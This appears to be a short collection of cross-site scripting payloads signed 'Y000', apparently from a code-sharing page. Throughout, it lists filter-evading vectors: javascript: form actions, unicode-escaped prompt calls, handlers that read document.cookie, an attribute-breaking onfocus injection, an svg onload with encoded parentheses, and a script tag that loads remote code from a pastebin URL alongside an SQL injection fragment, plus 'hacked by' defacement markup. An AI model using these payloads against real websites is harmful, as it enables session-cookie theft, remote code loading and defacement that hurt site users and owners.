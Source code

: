 
`<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_`


##<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>


<script type="text' or 1=1 limit 1 -- -+javascript" src="https://pastebin.com/raw/qc81pzSR"></script>

<Img src="/" =_=" title="onerror='prompt(document.cookie)'">

-1'<marquee>hacked by Y000</marquee>

```
<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>
```


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
